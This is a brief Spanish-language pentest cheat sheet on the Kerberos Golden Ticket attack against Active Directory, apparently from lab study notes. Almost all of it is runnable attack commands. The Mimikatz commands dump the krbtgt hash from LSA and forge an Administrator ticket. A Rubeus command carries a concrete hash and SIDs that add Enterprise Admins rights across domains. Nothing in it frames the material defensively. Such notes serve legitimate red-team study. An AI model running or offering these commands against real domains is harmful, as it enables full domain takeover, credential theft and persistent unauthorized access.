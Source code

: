 # Golden Ticket Attack

- Cuando comprometemos la cuenta krbtgt, ya owneamos el dominio.
- Podemos solicitar acceso a cualquier recurso o sistema dentro del dominio.
- Golden tickets == Completar acceso a cualquier maquina.

## Mimikatz
- `privilege::debug`
- `lsadump::lsa /inject /name:krbtgt`
- Ahora generamos el golden ticket:
    - `kerberos::golden /User:Administrator /domain:DOMAIN.local /sid:SID /krbtgt:NTLM /id:500 /ptt`
    - el `/id:500` significa el RID de administrador de maximos privilegios.
- `misc::cmd` para abrir un command prompt privilegiado

## Rubeus
- `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt`